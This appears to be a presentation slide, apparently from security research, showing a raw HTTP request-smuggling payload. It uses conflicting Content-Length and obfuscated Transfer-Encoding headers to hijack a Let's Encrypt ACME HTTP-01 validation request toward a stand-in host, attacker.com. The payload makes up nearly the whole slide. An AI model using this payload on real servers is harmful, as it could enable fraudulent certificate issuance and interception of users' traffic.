

# ACME HTTP-01 Challenge: Redirect Request
POST / HTTP/1.1
Host: juna.praetorianlabs.com
Content-Length: 65
Transfer-Encoding : chunked
0
POST / HTTP/1.1
Host: attacker.com
Content-Length: 3
x=GET /.well-known/acme-challenge/<TOKEN> HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; Let's Encrypt validation server; +https://www.letsencrypt.org)
...
30